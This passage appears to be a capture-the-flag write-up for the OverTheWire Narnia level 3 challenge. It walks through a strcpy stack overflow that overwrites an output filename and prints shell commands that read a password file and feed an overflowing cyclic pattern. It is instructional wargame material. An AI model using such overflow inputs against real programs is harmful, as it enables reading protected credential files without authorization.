```c
    
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
  
    /* close 'em */
    close(ifd);
    close(ofd);
  
    exit(1);
}
```

From what we can understand, the program opens a file that is given with argv, reads it, and writes it content into ofd, which in our case is /dev/null.
So basically it reads a file and writes it to a null file. 

Looks like another type of buffer overflow, but this time we would like to overwrite the value of `ofile`. 

To do this, we could use [[ltrace]] and play with some inputs, and see what input overwrites `ofile`. I see that the program uses `strcpy()` function of `argv[1]` to `ifile`. Since `ifile` was initialized after `ofile`, the stack will hold `ifile` in lower memory address than `ofile`. This means a buffer overflow could overwrite the value of `ofile`.

Okay, let's try to run the code with some parameters to see how it acts.
The most obvious is to run with the password file of narnia4

```ruby
narnia3@gibson:/narnia$ ./narnia3 /etc/narnia_pass/narnia4
copied contents of /etc/narnia_pass/narnia4 to a safer place... (/dev/null)
```

Okay we see the program works as expected, and copies the content of `/etc/narnia_pass/narnia4` to `/dev/null`

Let's try to give it a bigger string:

```ruby
**narnia3@gibson**:**/narnia**$ ./narnia3 $(python3 -c "print('/etc/narnia_pass/narnia4' +'\x30' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')")

error opening a2Aa3Aa4Aa5Aa6Aa7Aa8????b0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Great! we get an output that says that the program could not open `a2Aa3..` . But the question is what did we override? is it `ifile` or `ofile` ?
Using ltrace we find out that we successfully overwrote `ofile`!
